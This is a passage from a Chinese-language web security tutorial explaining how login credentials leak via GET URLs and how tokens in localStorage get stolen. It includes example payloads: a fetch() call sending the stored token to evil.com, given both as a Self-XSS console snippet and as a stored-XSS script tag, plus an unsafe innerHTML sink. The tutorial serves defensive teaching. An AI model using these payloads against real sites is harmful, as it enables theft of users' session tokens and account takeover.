 ## 🧨 1.2 駭客怎麼打你？（攻防起手式）

### 攻擊 1：F12 → Network → 看得到帳密

當你用 GET 傳帳密時，URL 會像這樣：

```
GET /login?username=alice&password=123456
```

任何人打開 F12 → Network → 點該請求，就能看到：

* Request URL（含帳密）
* Query String Parameters（帳密分開顯示）

這些帳密可能會：

* 被記錄在 browser history
* 被 proxy/server log 紀錄
* 被惡意工具擷取

🔴 **只要有人能看你的電腦畫面，帳密就暴露了。**

✅ 解法：請求應使用 `POST`，並配合 `HTTPS` 傳輸，帳密改放在 request body，不再出現在 URL。

---

### 攻擊 2：你放在 localStorage 的 token，他也能偷

你以為 token 存在 localStorage 就萬無一失？其實：

```js
// 只要開 F12、在 console 輸入：
fetch("https://evil.com/steal", {
  method: "POST",
  body: localStorage.getItem("token")
});
```

這就是 Self-XSS：駭客可以誘導你「貼上某段程式碼」，你就把 token 傳給他了。

但還有更恐怖的：

```html
<!-- 假設你有留言欄，攻擊者輸入這段內容： -->
<script>
  fetch("https://evil.com/steal", {
    method: "POST",
    body: localStorage.getItem("token")
  });
</script>
```

如果你沒 escape 這段 HTML，然後用 innerHTML 顯示留言：

```js
document.getElementById("comments").innerHTML = comment.content; // ❌
```
